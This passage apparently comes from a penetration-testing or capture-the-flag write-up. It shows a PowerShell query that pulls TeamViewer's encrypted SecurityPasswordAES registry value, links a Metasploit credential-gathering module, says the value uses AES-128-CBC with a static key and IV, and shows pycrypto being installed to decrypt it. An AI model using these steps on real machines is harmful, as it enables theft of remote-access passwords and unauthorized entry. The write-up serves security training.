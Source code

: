 `SecurityPasswordAES` is there from the list above. It just dumps a list of integers:

```
PS HKLM:\software\wow6432node\teamviewer\version7> (get-itemproperty -path .).SecurityPasswordAES
255
155
28
115
214
107
206
49
172
65
62
174
19
27
70
79
88
47
108
226
209
225
243
218
126
141
55
107
38
57
78
91
```

#### Decrypt Password

{% embed url="https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/teamviewer_passwords.rb" %}

After some research, I found that it’s using AES128 in CBC mode with a static key and iv. We can easily recreate this in a few lines of Python but we need a library which is this one:

```
❯ pip3 install pycrypto
Defaulting to user installation because normal site-packages is not writeable
Collecting pycrypto
  Using cached pycrypto-2.6.1.tar.gz (446 kB)
Building wheels for collected packages: pycrypto
  Building wheel for pycrypto (setup.py) ... done
  Created wheel for pycrypto: filename=pycrypto-2.6.1-cp39-cp39-linux_x86_64.whl size=526405 sha256=eb0f71d1e11861ab7653b83ad0e3b0b50d37acb34e0f43641717b832ed3c6e61
  Stored in directory: /home/kali/.cache/pip/wheels/9d/29/32/8b8f22481bec8b0fbe7087927336ec167faff2ed9db849448f
Successfully built pycrypto
Installing collected packages: pycrypto
Successfully installed pycrypto-2.6.1
```
